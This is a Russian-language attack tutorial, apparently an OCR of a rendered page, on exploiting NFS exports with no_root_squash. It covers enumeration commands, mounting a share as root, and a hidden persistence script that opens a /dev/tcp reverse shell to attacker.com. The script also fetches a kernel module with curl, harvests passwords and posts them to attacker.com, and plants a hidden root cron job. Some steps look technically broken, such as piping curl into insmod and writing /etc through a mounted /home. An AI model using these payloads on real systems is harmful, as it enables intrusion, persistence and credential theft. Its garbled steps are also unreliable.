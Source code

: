 **Пояснения**:
- `-sU`: UDP-сканирование для порта 111 (portmapper)
- `nfs-ls`: Перечисление содержимого директорий
- Комбинированный анализ показывает точные параметры экспорта для каждой директории

#### 2. Повышение привилегий (Privilege Escalation)
```bash
# Монтирование с явным указанием UID/GID
sudo mount -t nfs -o vers=3,nolock,proto=tcp,uid=0,gid=0 192.168.1.100:/home /mnt/nfs_root

# Проверка эффективных прав
touch /mnt/nfs_root/test_file
ls -n /mnt/nfs_root/test_file
# -rw-r--r-- 1 0 0 0 Jun 15 12:00 test_file
```

**Пояснения**:
- Параметры `uid=0,gid=0` принудительно устанавливают владельца файлов
- Проверка через `ls -n` подтверждает сохранение UID/GID=0

#### 3. Выполнение кода (Execution)
```bash
# Создание persistence-скрипта
cat > /mnt/nfs_root/.system_update <<'EOT'
#!/bin/bash
# Stage 1: Reverse shell
bash -c 'exec 5<>/dev/tcp/attacker.com/443;cat <&5|while read line;do $line 2>&5 >&5;done' &

# Stage 2: Kernel module injection
curl -sL http://attacker.com/km | insmod -f

# Stage 3: Credential harvesting
grep -RE "user|pass" /home /etc 2>/dev/null | curl -X POST -F "data=@-" http://attacker.com/log
EOT

# Установка скрытого cron
echo "*/30 * * * * root /bin/bash /home/.system_update" > /mnt/nfs_root/etc/cron.d/.sysupdate
```

**Пояснения**:
- Многоступенчатая полезная нагрузка для постоянного доступа
- Использование невидимых файлов (`.system_update`)
- Инъекция в системные директории (/etc/cron.d)

### Пример 1: Расширенная атака на NFS с `no_root_squash`

**Шаг 1: Глубокий анализ среды**
```bash
# Определение версии NFS
rpcinfo -p 192.168.1.100 | grep nfs

# Проверка поддерживаемых протоколов
nmap -sV -p111 --script=nfs-protocols 192.168.1.100

# Анализ файловых систем сервера
df -h /home | tee nfs_server_fs.txt
```
